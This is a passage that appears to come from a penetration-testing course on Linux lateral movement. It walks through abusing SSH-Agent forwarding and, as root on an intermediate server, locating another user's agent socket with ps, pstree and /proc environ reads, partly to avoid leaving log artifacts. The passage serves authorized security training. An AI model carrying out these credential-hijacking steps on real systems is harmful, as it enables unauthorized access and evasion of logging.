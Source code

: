 > Listing 26 - SSHing through an intermediate server

Excellent! SSH-Agent forwarding did its magic and we were able to access the downstream linuxvictim box through SSH key authentication even if we are not in possession of such keys.

However, there may be a case where we don't want to be logged in as the user whose SSH session is currently open. We may, for example, want to avoid adding artifacts to the logs related to that user.

The SSH-Agent mechanism creates an open socket[1](https://portal.offsec.com/courses/pen-300-9502/learning/linux-lateral-movement-14688/linux-lateral-movement-14967#fn-local_id_556-1) file on the intermediate server that can be accessed by users with elevated permissions. If we've compromised an account with _root_ level access on the intermediate server, we can leverage the victim user's open socket directly.

Note that both of these scenarios require the victim user to have an open SSH connection to the intermediate server.

To demonstrate this, we'll leave our earlier _offsec_ user's SSH connection to the controller server VM open. We'll then create a new SSH session from our Kali VM to the controller with the _root_ user to simulate the attacker shell access.

As an attacker logged in to the root account on the controller, we first need to find the user's open SSH-Agent socket. We can get a list of SSH connections using ps aux.

```
root@controller:~# ps aux | grep ssh
root      8106  0.0  0.1  72300  3976 ?        Ss   09:20   0:00 /usr/sbin/sshd -D
root      8249  0.0  0.1 107984  3944 ?        Ss   09:59   0:00 sshd: root@pts/2
root     15147  0.0  0.3 107984  7192 ?        Ss   11:14   0:00 sshd: offsec [priv]
offsec   15228  0.0  0.1 107984  3468 ?        S    11:14   0:00 sshd: offsec@pts/0
root     16298  0.0  0.3 107984  7244 ?        Ss   11:31   0:00 sshd: offsec [priv]
offsec   16380  0.0  0.1 107984  3336 ?        S    11:31   0:00 sshd: offsec@pts/1
root     16391  0.0  0.3 107984  7276 ?        Ss   11:31   0:00 sshd: root@pts/3
root     16488  0.0  0.0  14428  1088 pts/3    S+   11:31   0:00 grep --color=auto ssh
root@controller:~# 
```

> Listing 27 - Finding user SSH connections via ps

If we inspect processes with "ssh" in the name, we will find any open connections from the host. We can use the usernames listed in these connections with the pstree command to get the process ID (PID) values for the SSH processes.

```
root@controller:~# pstree -p offsec | grep ssh
sshd(15228)---bash(15229)---su(15241)---bash(15242)
sshd(16380)---bash(16381)
root@controller:~#
```

> Listing 28 - Finding PIDs using pstree

We'll try using the PID highlighted in the final line of the output above, which seems to indicate a bash session. We can cat the contents of the PID's environment file and search for a variable called _SSH\_AUTH\_SOCK_.

```
root@controller:~# cat /proc/16381/environ
LANG=en_US.UTF-8USER=offsecLOGNAME=offsecHOME=/home/offsecPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/gamesMAIL=/var/mail/offsecSHELL=/bin/bashSSH_CLIENT=192.168.119.120 49916 22SSH_CONNECTION=192.168.119.120 49916 192.168.120.40 22SSH_TTY=/dev/pts/1TERM=xterm-256colorXDG_SESSION_ID=29XDG_RUNTIME_DIR=/run/user/1000SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
root@controller:~# 
```
